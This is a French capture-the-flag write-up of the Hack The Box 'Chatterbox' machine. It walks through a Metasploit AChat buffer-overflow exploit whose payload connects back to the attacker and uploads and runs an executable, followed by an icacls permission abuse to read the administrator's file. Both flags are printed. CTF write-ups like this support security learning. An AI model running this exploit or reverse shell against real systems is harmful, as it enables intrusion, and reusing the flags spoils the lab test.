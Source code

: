 # Solution du CTF Chatterbox de HackTheBox

Le CTF *Chatterbox* de [Hack The Box](https://www.hackthebox.eu) est un autre CTF qui tourne sur un système Windows.  

Ce challenge a été quelque peu énervant (laborieux) à scanner en raison du lag de la machine mais une fois les ports ouverts trouvés (après de multiples essais et options de *Nmap*) on finit à parvenir à quelque chose.  

Chauffe Alfred !
----------------

```plain
Nmap scan report for 10.10.10.74
Host is up (0.024s latency).

PORT     STATE    SERVICE VERSION
80/tcp   filtered http
9255/tcp open     http    AChat chat system httpd
|_http-server-header: AChat
|_http-title: Site doesn't have a title.
9256/tcp open     achat   AChat chat system
```

On trouve facilement un exploit pour *Achat* parmi les modules *Metasploit*. Il aura seulement fallut trouver le bon payload pour passer le firewall / antivirus :  

```plain
msf exploit(windows/misc/achat_bof) > show options

Module options (exploit/windows/misc/achat_bof):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST  10.10.10.74      yes       The target address
   RPORT  9256             yes       The target port (UDP)

Payload options (windows/upexec/reverse_tcp_allports):

   Name      Current Setting             Required  Description
   ----      ---------------             --------  -----------
   EXITFUNC  process                     yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.199                yes       The listen address
   LPORT     51571                       yes       The starting port number to connect back on
   PEXEC     /home/devloop/jail/jre.exe  yes       Full path to the file to upload and execute

Exploit target:

   Id  Name
   --  ----
   0   Achat beta v0.150 / Windows XP SP3 / Windows 7 SP1

msf exploit(windows/misc/achat_bof) > exploit

[*] Started reverse TCP handler on 10.10.14.199:51571 
[*] Sending stage (398 bytes) to 10.10.10.74
[*] Uploading executable (73802 bytes)...
[*] Executing uploaded file...
[*] Sending stage (179779 bytes) to 10.10.10.74
[*] Command shell session 1 opened (10.10.14.199:51571 -> 10.10.10.74:49157) at 2018-05-04 11:19:44 +0200
[*] Meterpreter session 2 opened (10.10.14.199:7777 -> 10.10.10.74:49158) at 2018-05-04 11:19:44 +0200

msf exploit(windows/misc/achat_bof) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information                     Connection
  --  ----  ----                     -----------                     ----------
  1         shell x86/windows                                        10.10.14.199:51571 -> 10.10.10.74:49157 (10.10.10.74)
  2         meterpreter x86/windows  CHATTERBOX\Alfred @ CHATTERBOX  10.10.14.199:7777 -> 10.10.10.74:49158 (10.10.10.74)

meterpreter > sysinfo
Computer        : CHATTERBOX
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > getuid
Server username: CHATTERBOX\Alfred

c:\users\Alfred>net users
net users

User accounts for \\CHATTERBOX

-------------------------------------------------------------------------------
Administrator            Alfred                   Guest                    
The command completed successfully.

c:\users\Alfred>net user Alfred
net user Alfred
User name                    Alfred
Full Name                    
Comment                      
User's comment               
Country code                 001 (United States)
Account active               Yes
Account expires              Never

Password last set            12/10/2017 10:18:08 AM
Password expires             Never
Password changeable          12/10/2017 10:18:08 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   5/4/2018 5:15:23 AM

Logon hours allowed          All

Local Group Memberships      *Users                
Global Group memberships     *None                 
The command completed successfully.
```

Cet accès est bien sûr suffisant pour obtenir le flag de l'utilisateur :  

```plain
C:\Users\Alfred\Desktop>type user.txt
type user.txt
72290246dfaedb1e3e3ac9d6fb306334
```

Windows permissions 101
-----------------------

Ce qui est surprenant c'est qu'avec le compte *Alfred* on puisse aller jusqu'au bureau de l'administrateur. On est cependant bloqué au moment de récupérer le contenu de *root.txt* :  

```plain
c:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9034-6528

 Directory of c:\Users\Administrator\Desktop

12/10/2017  07:50 PM    <DIR>          .
12/10/2017  07:50 PM    <DIR>          ..
12/10/2017  07:50 PM                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)  18,498,449,408 bytes free

c:\Users\Administrator\Desktop>type root.txt
type root.txt
Access is denied.

c:\Users\Administrator\Desktop>icacls root.txt
icacls root.txt
root.txt CHATTERBOX\Administrator:(F)

Successfully processed 1 files; Failed processing 0 files
```

*Administrator* est le seul utilisateur à disposer de droits sur ce fichier, toutefois il s'avère qu'on dispose nous aussi du contrôle total (F) sur le dossier *Desktop* :  

```plain
C:\Users\Administrator\Desktop>icacls .
icacls .
. NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
  CHATTERBOX\Administrator:(I)(OI)(CI)(F)
  BUILTIN\Administrators:(I)(OI)(CI)(F)
  CHATTERBOX\Alfred:(I)(OI)(CI)(F)

Successfully processed 1 files; Failed processing 0 files
```

On peut alors ajouter les permissions qui nous permettront de lire le fichier :  

```plain
c:\Users\Administrator\Desktop>icacls root.txt /grant Users:F
icacls root.txt /grant Users:F
processed file: root.txt
Successfully processed 1 files; Failed processing 0 files

c:\Users\Administrator\Desktop>type root.txt
type root.txt
a673d1b1fa95c276c5ef2aa13d9dcc7c
```


*Published June 17 2018 at 10 00*